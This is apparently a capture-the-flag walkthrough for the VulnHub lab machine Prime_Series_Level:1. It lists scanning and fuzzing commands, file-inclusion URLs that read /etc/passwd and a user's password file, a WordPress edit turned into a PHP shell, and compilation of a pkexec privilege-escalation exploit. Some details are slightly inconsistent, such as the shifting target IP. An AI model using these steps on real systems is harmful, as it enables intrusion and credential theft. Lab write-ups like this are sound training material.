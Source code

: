 

# Prime_Series_Level:1 Walkthrough

**VulnHub Link:** [Prime_Series_Level:1](https://www.vulnhub.com/entry/prime-1,358/)
**Difficulty:** Easy
**Release Date:** 1 Sep 2019


## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.175
```
## 2.Web Enumeration
```bash
dirb http://192.168.100.175
```
```bash
ffuf -c -ic -u 'http://192.168.100.107/FUZZ' -w /usr/share/wordlists/dirb/common.txt -e .php,.txt

ffuf -c -ic -u 'http://192.168.100.107/index.php?FUZZ=location.txt' -w /usr/share/wordlists/dirb/common.txt -fw 8
```

http://192.168.100.107/image.php?secrettier360=/etc/passwd

victor , saket usernames found

http://192.168.100.107/image.php?secrettier360=/home/saket/password.txt

victor password found on wordpress and logged in 

secret php edited --> shell.php

php file executed and shell opened with netcat

user flag found

```bash
find / -perm /4000 2>/dev/null
```

pkexec 0.105 exploit used

download exploit.c and evil-so.c file from exploit-db or from my github account

```bash
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit
./evil.so
./exploit
```
root flag captured
